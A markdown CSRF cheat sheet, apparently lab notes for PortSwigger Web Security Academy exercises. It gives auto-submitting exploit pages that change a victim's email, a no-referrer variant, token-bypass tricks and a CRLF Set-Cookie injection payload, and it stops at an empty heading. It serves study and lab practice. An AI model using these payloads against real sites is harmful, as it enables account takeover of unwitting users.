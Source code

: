 ## Cross-site request forgery

## CSRF vulnerabilities work when:

- User is Authenticated;
- SameSite=None - allows them to be sent on cross-site requests;

### CSRF does not work when:

- CSRF Tokens are Present;
- Same-Site Cookies are Enabled: With SameSite cookie policy (e.g., SameSite=Lax or Strict), cookies are only sent on requests originating from the same domain;
- Referrer Check: Some sites check the Referer header to confirm requests are from their own pages;
- Origin header (sometimes) - If the site rejects requests without them, it likely relies on header-based protection.

### Standard GET CSRF:
```
<html> 
<body> 
<form action="https://vulnerable-website.com/my-account/change-email"> 
<input type="hidden" name="email" value="evil@gmail.com" /> 
</form> 
<script> document.forms[0].submit(); </script> 
</body>
</html>
```

### Standard POST CSRF:
```
<html> 
<body> 
<form action="https://vulnerable-website.com/my-account/change-email" method="POST"> 
<input type="hidden" name="email" value="evil@gmail.com" /> 
</form> 
<script> document.forms[0].submit(); </script> 
</body>
</html>
```

### Standard POST CSRF with new inputs:
```
<html> 
<body> 
<form action="https://vulnerable-website.com/my-account/change-email" method="POST"> 
<input type="hidden" name="email" value="evil@gmail.com" />
<input type="hidden" name="csrf" value="SDGDSGHRTG$rewt65RT$T4t45" /> 
</form> 
<script> document.forms[0].submit(); </script> 
</body>
</html>
```

### POST CSRF with NoREFFER header:
```
<html>
<head>
<title>CSRF Exploit </title>
  <meta name="referrer" content="no-referrer">
</head>
<body>
  <form action="https://0a2b00a103d9639280702748000e0044.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="pwned@err.net" />
    <input type="submit" value="Submit request" />
  </form>
  <script>
    document.forms[0].submit();
  </script>
</body>
</html>
```


```
<html>
<head>
  <title>CSRF Exploit </title>
</head>
<script>history.pushState("", "", "/?0a2b00a103d9639280702748000e0044.web-security-academy.net")</script>
<body>
  <form action="https://0a2b00a103d9639280702748000e0044.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="pwn234@gmail.com" />
    <input type="submit" value="Submit request" />
  </form>
  <script>
    document.forms[0].submit();
  </script>
</body>
</html>
```
## ByPass Restrictions:

### CSRF:

1) Just delete **csrf** parameter from request.
2) Make a note of the value of the **CSRF** token, then drop the request this is a single-use, so you'll need to include a fresh one.
3) CSRF where token is tied to non-session cookie:
   
   Changing the session cookie logs you out; and
   Changing the csrfKey cookie merely results in the CSRF token being rejected.

   https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-tied-to-non-session-cookie

4) CSRF where token is duplicated in cookie (and if the search term gets reflected in the Set-Cookie header) :

  Create a URL that uses this vulnerability to inject a fake csrf cookie into the victim's browser:
  ```
  /?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None
  ```
  
  Remove the auto-submit <script> block from **Standard CSRF** and instead add the following code to inject the cookie and submit the form:
  ```
  <img src="https://YOUR-LAB-ID.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
  ```

  https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-duplicated-in-cookie

### SameSite:

